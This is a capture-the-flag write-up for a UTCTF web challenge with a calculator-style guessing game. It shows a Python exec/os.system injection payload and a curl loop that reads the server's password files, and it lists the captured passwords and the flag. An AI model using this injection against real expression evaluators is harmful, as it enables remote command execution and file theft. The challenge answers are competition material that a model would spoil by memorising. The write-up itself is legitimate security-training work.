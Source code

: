 #### Challenge:

Who says guessing games shouldn't let you do math?

http://guppy.utctf.live:5957

By Alex (@Alex_ on discord)

---

#### Solution:

- in this challenge we solved by collaborative efforts of other contestant as the container was shared for everyone all of the mess and attempts were accessible cross teams
- first 3 passwords `PuXqj7n4WNZzStnWbtPv` `Krdi9yQuY8mHoteZDCF5` `E46Dnqb5enAMgGArbruu` can be easily obtained just via following payload `exec('import os; os.system(\"cat *.txt;\"); print()')`

```bash
for level in 0 1 2; do
    password=$(
        curl -b /tmp/guppy.utctf.live --cookie-jar /tmp/guppy.utctf.live  'http://guppy.utctf.live:5957/' -X POST \
            -H 'Content-Type: application/x-www-form-urlencoded' \
            --data-urlencode 'type=calculate' \
            --data-urlencode "level=${level}" \
            --data-urlencode "expression=exec('import os; os.system(\"cat *.txt;\"); print()')" \
            2>/dev/null | htmlq --text '.result>pre' | head -n 1
    )
    echo -n "$password - "

    curl -b /tmp/guppy.utctf.live --cookie-jar /tmp/guppy.utctf.live  'http://guppy.utctf.live:5957/' -X POST \
        -H 'Content-Type: application/x-www-form-urlencoded' \
        --data-urlencode 'type=unlock' \
        --data-urlencode "password=${password}" 2>/dev/null | htmlq --text '.notification'
done
```

- as for the last password `5F4p7aLgQ5Nfn5YM8s68` during the competition someone unintentionally leaked it to `/tmp`

---

<details><summary>FLAG:</summary>

```
utflag{LGvb7PJXG5JDwhsEW7xp}
```

</details>
<br/>
